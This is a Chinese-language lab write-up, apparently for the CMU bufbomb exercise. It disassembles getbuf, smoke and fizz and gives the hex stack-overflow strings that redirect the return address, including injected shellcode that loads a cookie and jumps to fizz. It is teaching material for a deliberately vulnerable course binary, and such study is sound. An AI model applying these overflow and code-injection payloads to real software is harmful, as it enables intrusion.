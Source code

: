 # 缓存溢出攻击
## 入口函数 getbuf
```asm
00000000004015d5 <getbuf>:
  4015d5:	48 83 ec 28          	sub    $0x28,%rsp
  4015d9:	48 89 e7             	mov    %rsp,%rdi
  4015dc:	e8 f6 fa ff ff       	callq  4010d7 <Gets>
  4015e1:	b8 01 00 00 00       	mov    $0x1,%eax
  4015e6:	48 83 c4 28          	add    $0x28,%rsp
  4015ea:	c3                   	retq   
```
从这里我们可以看到getbuf函数的栈相关情况。


|        栈           |       位置      |
|--------------------|-----------------|
|getbuf返回地址(0x00)  | <- ebp          |
| (-0x04)            |                 |
| (-0x08)            |                 |
|....................|                 |
|  (-0x28)           |  <- buf <-rsp   |


## smoke
```asm
0000000000401019 <smoke>:
  401019:	48 83 ec 08          	sub    $0x8,%rsp
  40101d:	bf cf 26 40 00       	mov    $0x4026cf,%edi
  401022:	e8 69 fc ff ff       	callq  400c90 <puts@plt>
  401027:	bf 00 00 00 00       	mov    $0x0,%edi
  40102c:	e8 ba 06 00 00       	callq  4016eb <validate>
  401031:	bf 00 00 00 00       	mov    $0x0,%edi
  401036:	e8 c5 fd ff ff       	callq  400e00 <exit@plt>
```
查到smoke的函数地址是0x00401019。
由于我的系统是小端序，将其按小端序重写是`19 10 40 00 00 00 00 00`。
将返回地址覆盖，只需要将原先的buf区域全部填0即可，0x28 = 40个字节
所以最终答案如下:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
19 10 40 00 00 00 00 00
19 10 40 00 00 00 00 00
```

## fizz
```asm
000000000040103b <fizz>:
  40103b:	48 83 ec 08          	sub    $0x8,%rsp
  40103f:	89 fa                	mov    %edi,%edx
  401041:	3b 3d 65 51 20 00    	cmp    0x205165(%rip),%edi        # 6061ac <cookie>
  401047:	75 20                	jne    401069 <fizz+0x2e>
  401049:	be ea 26 40 00       	mov    $0x4026ea,%esi
  40104e:	bf 01 00 00 00       	mov    $0x1,%edi
  401053:	b8 00 00 00 00       	mov    $0x0,%eax
  401058:	e8 73 fd ff ff       	callq  400dd0 <__printf_chk@plt>
  40105d:	bf 01 00 00 00       	mov    $0x1,%edi
  401062:	e8 84 06 00 00       	callq  4016eb <validate>
  401067:	eb 14                	jmp    40107d <fizz+0x42>
  401069:	be 38 25 40 00       	mov    $0x402538,%esi
  40106e:	bf 01 00 00 00       	mov    $0x1,%edi
  401073:	b8 00 00 00 00       	mov    $0x0,%eax
  401078:	e8 53 fd ff ff       	callq  400dd0 <__printf_chk@plt>
  40107d:	bf 00 00 00 00       	mov    $0x0,%edi
  401082:	e8 79 fd ff ff       	callq  400e00 <exit@plt>
```

这里不知道为什么出现了一个edi，是在是没办法，只好用一些激进的方法。

首先进入gdb查到buf的地址是0x55683cb0。

让程序运行我注入的代码:
```asm
   0:	bf 1b fe f6 51       	mov    $0x51f6fe1b,%edi  #cookie
   5:	68 3b 10 40 00       	pushq  $0x40103b         #fizz
   a:	c3                   	retq   
```
将edi修改为我的cookies。
最终得到的答案如下:
```
bf 1b fe f6 51 68 3b 10
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
```
